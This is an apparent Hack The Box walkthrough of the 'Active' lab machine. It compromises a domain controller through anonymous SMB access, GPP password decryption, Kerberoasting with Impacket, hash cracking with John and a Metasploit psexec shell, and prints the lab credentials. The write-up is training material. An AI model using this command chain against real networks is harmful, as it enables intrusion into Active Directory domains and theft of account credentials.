


# Active      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




Let's not talk at all about ports, we can see that `SMB` is open.

### smbclient

Type:

```
smbclient -L \\\\{target ip}\\ --no-pass
```


`Replication` sharename is basically the only one to which we have access and reasonable permissions.

Let's type:

```
smbclient \\\\{target ip}\\Replication --no-pass
```


Time to look around.


From all of these directories, only `Policies` contains something that looks useful.


In `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\>` path there is `Groups.xml` file, let's just simply `get` it.

```
get Groups.xml
```


We can `exit`.


I found `three` interesting articles:

```
https://adsecurity.org/?p=2288
```

```
https://adsecurity.org/?p=2362
```

```
https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/
```

From them, we know:

**Group Policy Preferences (GPP)** was introduced in Windows Server 2008, and among many other features, allowed administrators to modify users and groups across their network.

**Group Policy Preferences** is a collection of Group Policy client-side extensions that deliver preference settings to domain-joined computers running Microsoft Windows desktop and server operating systems. Preference settings are administrative configuration choices deployed to desktops and servers. Preference settings differ from policy settings because users have a choice to alter the administrative configuration. Policy settings administratively enforce setting, which restricts user choice.


### gpp-decrypt

What are we gonna do now, is to extract the `encrypted password` from our `Groups.xml` file and decrypt it.

The password hash is:

```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Type:

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

The password is `GPPstillStandingStrong2k18`.


### smbclient, part II

Let's log in.

From `Groups.xml` we know that `Username` is `SVC_TGS`.

Type:

```
smbclient -L //{target ip}/ -U SVC_TGS%GPPstillStandingStrong2k18
```

to see which `SMB resources` we can possibly connect to.


`Users` shares are now accessible.

Type:

```
smbclient //{target ip}/Users -U SVC_TGS%GPPstillStandingStrong2k18
```


### Get the user flag

The `user` flag is in the `\SVC_TGS\Desktop` path.

Let's get it.

```
get user.txt
```


## Privilege Escalation

Honestly, this took me a while.


It is good to mention that we do not have access to the `\Administrator\*` directory.

I finally found after a series of failures that `TGT` in `SVC_TGS` username is an acronym of `ticket-granting ticket`. 

In ****Kerberos****, a **TGT (Ticket Granting Ticket)** is a special ticket issued after the user initially authenticates to the system. The **TGT** proves the user's identity and is encrypted with a key only known to the **Kerberos Key Distribution Center (KDC)**. It allows the user to request access to other services without needing to authenticate again by presenting the **TGT** to the **KDC**. The **KDC** then provides a service ticket for the requested resource. **TGT**s are time-limited and must be renewed or reissued after expiration.

### Kerberoasting

It is a post-exploitation technique used by attackers to obtain service account credentials in a `Windows` environment that uses the **Kerberos** authentication protocol. The main idea behind **Kerberoasting** is to exploit the way **Kerberos** handles service tickets.

**1** 

An attacker who has gained a foothold on a domain can request a **service ticket** (Ticket Granting Service or TGS) for any service account that uses **Kerberos** for authentication.

**2** 

The requested service ticket is encrypted using the service account's **NTLM hash** (which is derived from the account's password).

**3**

Once the attacker obtains the service ticket, he can extract the encrypted portion and attempt to crack it offline using brute force or dictionary attacks to recover the password of the service account.

Let's check if we can find any `kerberoastable` users.

### Impacket

**Impacket**’s **GetUserSPNs.py** lets us request the **TGS** and extract the hash to futher offline cracking.


It is time to type:

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip {target ip} -request
```


We have our hash. 

Time to copy it to the .txt file.


### John the Ripper

Let's crack the password.

```
john --wordlist={path to the dictionary you wanna use} {name of your file with password hash}.txt
```


Credentials are:

```
Administrator:Ticketmaster1968
```

### Metasploit

Time to log in as **Administrator**. 

We have admin's password, so we can use **Impacket**’s **psexec.py** to get a **system shell** on the **Domain Controler**.

Gaining **system shell** access on a **Domain Controller** means taking full control of the server with the highest level of privileges, we will have complete access to the entire domain and all resources managed by it. This is the most **critical** level of access anyone can achieve within a `Windows` network.

For me the fastest and most pleasant way was to do it with **Metasploit**.

In order:

```
msfconsole
```

```
use exploit/windows/smb/psexec
```

```
set rhost {target ip}
```

```
set lhost {yout tun0 ip}
```

```
set smbuser Administrator
```

```
set smbpass Ticketmaster1968
```

When all of the above is set, type `run` and press `Enter`.


We are in.

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop` path.


Flag is there.

### Paste the flags

